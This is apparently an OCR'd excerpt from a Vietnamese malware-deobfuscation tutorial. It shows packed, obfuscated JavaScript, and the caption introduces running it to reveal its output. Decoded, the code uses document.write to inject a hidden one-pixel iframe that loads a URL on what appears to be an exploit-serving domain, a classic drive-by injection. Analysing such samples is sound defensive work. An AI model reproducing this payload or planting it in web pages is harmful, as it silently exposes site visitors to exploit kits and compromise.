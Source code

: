 ```JavaScript
        return '\\w+'
      }
      c = 1
    }
    while (c--) {
      if (k[c]) {
        p = p.replace(new RegExp('\\b' + e(c) + '\\b', 'g'), k[c])
      }
    }
    return p
  })(
    'q.r(s("%h%0%6%d%e%7%1%8%9%d%3%4%a%5%2%2%i%j%b%b%9%i%c%k%0%2%7%1%l%3%k%7%l%3%m%b%t%3%c%0%3%u%4%v%6%1%f%w%e%x%f%y%6%a%z%0%g%2%5%4%n%8%5%1%0%A%5%2%4%n%8%9%2%o%c%1%4%a%B%0%9%0%f%0%c%0%2%o%j%8%5%0%g%g%1%m%a%p%h%b%0%6%d%e%7%1%p%C"));',
    39,
    39,
    '69|65|74|63|3D|68|66|6D|20|73|22|2F|6C|72|61|62|64|3C|70|3A|6F|2E|6E|31|79|3E|document|write|unescape|3F|6B|33|35|36|32|77|67|76|0A'.split(
      '|'
    ),
    0,
    {}
  )
)
```

Khi thực thi đoạn code trên để lấy output của nó:
